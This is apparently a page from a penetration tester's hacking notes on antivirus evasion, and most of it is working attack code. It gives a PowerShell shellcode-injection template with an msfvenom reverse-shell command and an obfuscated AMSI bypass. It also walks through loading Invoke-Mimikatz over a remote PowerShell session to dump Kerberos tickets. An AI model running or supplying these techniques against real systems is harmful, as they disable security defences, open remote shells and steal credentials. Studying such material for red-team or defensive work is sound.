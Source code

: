 ```yaml
---
title: AV Evasion
category: Post Exploitation
order: 1
---
```


A basic template script that performs in-memory injection:

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
# msfvenom -p windows/shell_reverse_tcp LHOST=<ip_addr> LPORT=<port> -f powershell
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Another way to bypass AV is using Shellter

![](/hackingnotes/images/shellter.png)


# String Replacement

FUTURE CONTENT

https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/
https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/


# AMSI bypass

AMSI bypass method to execute powershell scripts such as `Invoke-Mimikatz.ps1` with `PowerShell Remote`.

First we need to create a session on the target machine.

```powershell
$sess = New-PSSession -ComputerName srv01.corp.local
Enter-PSSession -Session $sess
```
Execute the following payload and exit the session.

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
Import the script remotely with `PowerShell Remote`:

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
```
Enter in the session again and execute the malicious script.

```powershell
Enter-PSSession -Session $sess
Invoke-Mimikatz -Command '"sekurlsa::tickets'
```

> **Note**: More bypasses are available on the following resource:
>
> https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560